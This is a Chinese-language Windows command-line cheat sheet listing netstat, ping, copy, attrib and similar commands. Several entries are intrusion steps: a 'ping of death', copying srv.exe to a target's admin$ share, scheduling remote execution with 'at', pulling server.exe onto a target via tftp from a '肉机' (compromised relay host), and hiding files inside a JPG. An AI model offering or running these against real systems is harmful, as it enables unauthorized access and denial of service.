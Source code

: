  - netstat -v 查看正在进行的工作
 - netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
 - netstat -s 查看正在使用的所有协议使用情况
 - nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名
 - tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
 - ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
 - ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
 - ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
 - tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
 - kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
 - del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
 - del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
 - move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
 - fc one.txt two.txt &gt; 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"&gt; "和"&gt; &gt;" 是重定向命令
 - at id号 开启已注册的某个计划任务
 - at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
 - at id号 /delete 停止某个已注册的计划任务
 - at 查看所有的计划任务
 - at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
 - finger username @host 查看最近有哪些用户登陆
 - telnet ip 端口 远和登陆服务器,默认端口为23
 - open ip 连接到IP（属telnet登陆后的命令）
 - telnet 在本机上直接键入telnet 将进入本机的telnet
 - copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
 - copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
 - copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
 - copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
 - xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
 - 用参数/e才可连目录下的子目录一起复制到目标地址下。
 - tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
 - tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
 - ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
 - route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
 - arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
 - start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
 - mem 查看cpu使用情况
 - attrib 文件名(目录名) 查看某文件（目录）的属性
 - attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
 - dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
 - date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
 - set 指定环境变量名称=要指派给变量的字符 设置环境变量
 - set 显示当前所有的环境变量
 - set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
 - pause 暂停批处理程序，并显示出：请按任意键继续....
 - if 在批处理程序中执行条件处理（更多说明见if命令及变量）
 - goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
 - call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
 - for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
 - echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
 - echo 信息 在屏幕上显示出信息
 - echo 信息 &gt;&gt; pass.txt 将"信息"保存到pass.txt文件中
 - findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
 - find 文件名 查找某文件
 - title 标题名字 更改CMD窗口标题名字
 - color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
 - prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
 - ver 在DOS窗口下显示版本信息
 - winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
 - format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
 - md　目录名 创建目录
